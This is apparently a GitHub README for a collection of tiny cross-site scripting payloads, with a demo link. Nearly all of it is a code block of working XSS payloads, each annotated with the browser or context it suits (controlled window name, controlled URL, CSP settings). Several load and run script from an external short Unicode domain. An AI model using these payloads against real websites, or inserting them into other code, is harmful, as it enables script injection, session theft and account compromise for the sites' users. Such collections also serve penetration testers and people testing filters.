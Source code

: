 # Tiny-XSS-Payloads
A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://terjanq.github.io/Tiny-XSS-Payloads/index.html>


## Current Payloads


```html
<!-- If you control the name, will work on Firefox in any context, will fail in chromium in DOM -->
<svg/onload=eval(name)>

<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>

<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>

<!-- If you controll the name, but unsafe-eval not enabled -->
<svg/onload=location=name>

<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>

<!-- If you control the name of the window -->
<iframe/onload=src=top.name>

<!-- If you control the URL -->
<iframe/onload=eval('`'+URL)>

<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">

<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```
